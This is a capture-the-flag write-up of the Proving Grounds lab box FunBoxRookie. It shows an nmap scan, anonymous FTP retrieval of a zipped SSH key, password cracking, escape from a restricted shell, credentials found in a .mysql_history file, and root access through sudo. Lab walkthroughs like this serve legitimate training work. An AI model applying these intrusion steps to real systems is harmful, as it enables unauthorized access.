 # PG Play - FunBoxRookie

#### Ip: 192.168.189.107
#### Name: FunBoxRooke
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag as well as `-sC` and `-sV` to use basic scripts and enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ sudo nmap -p-  --min-rate 10000 192.168.189.107 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-25 12:13 CDT
Nmap scan report for 192.168.189.107
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_/logs/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.32 seconds
```

Most interesting to me off the bat is all the zip files in the FTP server, which also has anonymous access enabled.

Logging in, the first thing I notice is that the tom.zip has different permissions than the rest of the files. Lets start there.

Logging in with:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ ftp 192.168.189.107                     
Connected to 192.168.189.107.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.189.107]
Name (192.168.189.107:ryan): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.158 !
```

I can use the `get` command to bring tom.zip back to my machine.

### Exploitation

Trying to unzip the file we see it has an SSH key, but it is password protected:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ unzip tom.zip                
Archive:  tom.zip
[tom.zip] id_rsa password: 
   skipping: id_rsa                  incorrect password
```

Lets use fcrackzip to brute force this password:

![fcrack.png](../assets/funboxrookie_assets/fcrack.png)

We can now unzip the file:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ unzip tom.zip
Archive:  tom.zip
[tom.zip] id_rsa password: 
  inflating: id_rsa 
```

And login to the box:

```text
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/FunBoxRookie]
└─$ ssh -i id_rsa tom@192.168.189.107

<snip>
```

From here we can grab the local.txt file:

![user_flag.png](../assets/funboxrookie_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` prompts for a password, but when we run `id` we can see that tom is a member of the sudoers group:

```text
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
tom@funbox2:~$ ^C
tom@funbox2:~$ ^C
tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Trying to change directories to begin enumerating for privilege escalation, we realize we are in a restricted shell:

```text
tom@funbox2:~$ cd /
-rbash: cd: restricted
```

Lets logout and SSH in again, but this time we'll also include the `-t bash` flag:

![bash.png](../assets/funboxrookie_assets/bash.png)

Back in tom's home directory we find a `.mysql_history` file, and it has toms credentials in it:

![creds.png](../assets/funboxrookie_assets/creds.png)

Nice! Because we know that tom is in the sudoers group, and we now have his password, we can easily elevate our shell to root level:

```text
tom@funbox2:~$ sudo /bin/bash
[sudo] password for tom: 
root@funbox2:~# whoami
root
root@funbox2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

And we can grab the final flag:

![root_flag.png](../assets/funboxrookie_assets/root_flag.png)

Thanks for following along!

-Ryan

-----------------------------------------------------------

